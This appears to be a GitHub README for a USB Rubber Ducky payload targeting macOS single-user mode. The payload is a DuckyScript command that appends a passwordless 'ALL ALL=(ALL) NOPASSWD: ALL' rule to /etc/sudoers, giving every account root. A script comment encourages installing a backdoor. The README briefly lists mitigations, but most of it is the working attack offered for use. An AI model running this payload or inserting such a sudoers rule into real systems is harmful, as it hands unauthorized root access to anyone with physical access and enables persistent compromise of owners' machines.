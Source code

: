 **Author: Jesse Wallace ([@c0deous](https://twitter.com/c0deous))**
**[c0deo.us](https://c0deo.us/)**

This script adds a line into /etc/sudoers that enables sudo for ALL users **without requiring a password.**  Only requirement is a reboot into [single user mode](https://support.apple.com/en-us/HT201573).

**Mitigation**

Setup a [firmware password](https://support.apple.com/en-us/HT204455) or enable [FileVault](https://support.apple.com/en-us/HT204837) disk encryption.

This method was tested on macOS 10.7.5, 10.11, 10.12 but should work for all versions. (?)

```
REM MacOS AllSudo
REM Enables Sudo access for all users without a password
REM First boot the machine into single user mode - https://support.apple.com/en-us/HT201573
REM By Jesse Wallace (@c0deous)
REM https://c0deo.us/
DELAY 1000
STRING mount -uw / && chmod 755 /etc/sudoers && echo 'ALL    ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers && chmod 440 /etc/sudoers && shutdown -h now
ENTER
REM Now would be a great time to install a backdoor.  Ez root ;3
REM TODO Use visudo for edits (unconfirmed if working)
```

**Todo**: Having issues scripting a way to boot into single user mode with the duck.  If you'd like to help please DM me on Twitter (@c0deous)